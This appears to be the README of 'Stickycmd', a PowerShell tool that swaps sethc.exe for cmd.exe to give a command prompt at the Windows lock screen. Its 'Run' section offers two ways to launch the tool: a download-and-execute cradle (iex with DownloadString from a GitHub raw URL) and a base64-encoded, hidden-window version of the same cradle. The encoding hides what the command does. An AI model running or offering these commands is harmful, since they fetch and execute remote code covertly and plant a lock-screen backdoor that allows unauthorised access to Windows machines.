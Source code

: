 # Stickycmd

![Stickycmd](https://ctrla1tdel.files.wordpress.com/2020/05/stickycmd.jpg)

## About

PowerShell Script that replaces sethc.exe with cmd.exe, allowing you to get a cmd prompt during the lockout screen. 

Youtube: https://youtu.be/uMJYADGFc-I

##Run

You can either run locally by downloading the script or run remotely using: 

powershell –nop –c “iex(New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/securethelogs/Stickycmd/master/stickycmd.ps1)”

or

powershell -nop -noni -w hidden -enc aQBlAHgAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAYIGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8AcwBlAGMAdQByAGUAdABoAGUAbABvAGcAcwAvAFMAdABpAGMAawB5AGMAbQBkAC8AbQBhAHMAdABlAHIALwBzAHQAaQBjAGsAeQBjAG0AZAAuAHAAcwAxACcAKQApAA==

